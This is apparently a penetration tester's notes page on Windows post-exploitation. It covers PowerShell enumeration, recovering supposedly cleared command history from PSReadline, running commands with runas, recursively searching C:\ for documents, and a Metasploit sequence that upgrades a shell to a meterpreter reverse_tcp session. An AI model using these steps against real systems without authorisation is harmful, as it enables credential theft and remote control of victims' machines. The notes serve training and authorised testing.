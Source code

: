 
- Finding running processes, use powershell `Get-Process` cmdlet
- The listed processes might not be complete.Check for files in the `c:/` directory
- Gather more data about user with `net user [username]`
- ` Remote Desktop Users or Remote Management Users` can access services like `RDP` or `WINRM`.
- Check Powershell history with-:`Get-History`
- Most Administrators use the Clear-History770 command to clear the PowerShell history. But this Cmdlet is only clearing PowerShell’s own history, which can be retrieved with Get-History. Starting with PowerShell v5, v5.1, and v7, a module named PSReadline771 is included, which is used for line-editing and command history functionality.Interestingly, Clear-History does not clear the command history recorded by `PSReadline`. Therefore, we can check if the user in our example misunderstood the Clear-History Cmdlet to clear all traces of previous commands.

```pwsh
(Get-PSReadlineOption).HistorySavePath
```

- 


------------------------------

### Using RUNAS

------------------------------

- If a user is not part of the group `remote desktop Users of Remote Management Users` but you have access to GUI.`Runas` can be used to spawn a command as a user.Syntax-:

```pwsh
runas /user:[username] cmd
```

--------------------------------

### Hidden in Plain view

-------------------------------

- Find files e.g ".txt,ini" with -: `Get-ChildItem`

```pwsh
Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
-------------------------------

### Upgrading a shell to meterpreter

- Use

      use multi/manage/shell_to_meterpreter
      set SESSION 1
      set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
      set PLATFORM_OVERRIDE windows
      set PSH_ARCH_OVERRIDE x64
